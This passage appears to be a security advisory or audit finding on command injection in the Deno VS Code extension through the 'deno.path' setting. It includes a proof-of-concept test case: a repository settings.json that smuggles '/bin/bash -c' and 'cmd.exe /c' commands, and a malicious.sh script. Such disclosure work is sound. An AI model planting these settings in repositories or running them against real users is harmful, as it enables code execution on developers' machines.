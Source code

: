             const serverOptions: ServerOptions = {
              run: {
                command, // Malicious command from settings is used here
                args: ["lsp"],
                options: { env },
              },
              debug: {
                command, // Malicious command from settings is used here
                args: ["lsp"],
                options: { env },
              },
            };
            const client = new LanguageClient(
              LANGUAGE_CLIENT_ID,
              LANGUAGE_CLIENT_NAME,
              serverOptions,
              {
                // ...
              },
            );
            await client.start();
            // ...
          };
        }
        ```
        The `startLanguageServer` function uses the `command` obtained from `getDenoCommandPath()` directly in `ServerOptions.run.command` and `ServerOptions.debug.command` for the LanguageClient. The `LanguageClient` uses `child_process.spawn` internally to execute this command.  Because `child_process.spawn` is used without `shell: false` and without sanitizing the `command`, it can be vulnerable to command injection if the `command` is user-controlled and not properly validated. The `command` variable, which is the user-controlled `deno.path`, is directly used as the executable command in `child_process.spawn` (implicitly used by `LanguageClient`). This allows for command injection if the user provides a malicious path.

    *Visualization:*

    ```
    User Setting "deno.path" --> getWorkspaceConfigDenoExePath() --> getDenoCommandPath() --> startLanguageServer() --> LanguageClient (child_process.spawn) --> Command Execution
    ```

* Security Test Case:
    1. Create a new directory named `malicious-repo`.
    2. Inside `malicious-repo`, create a subdirectory named `.vscode`.
    3. Inside `.vscode`, create a file named `settings.json` with the following content:
        ```json
        {
            "deno.path": "/bin/bash -c 'touch /tmp/vscode-deno-pwned'"
        }
        ```
        *(Note: For Windows, use `deno.path": "cmd.exe /c type nul >> %TEMP%\\vscode-deno-pwned.txt"` or similar)*
        Alternatively, on Linux/macOS create a file named `malicious.sh` with the following content and make it executable using `chmod +x malicious.sh`:
        ```bash
        #!/bin/bash
        echo "Vulnerable to Command Injection!" > output.txt
        echo "Malicious script executed with arguments: $*" >> output.txt
        whoami >> output.txt
        ```
        And in `.vscode/settings.json`:
        ```json
        {
          "deno.path": "./malicious.sh"
        }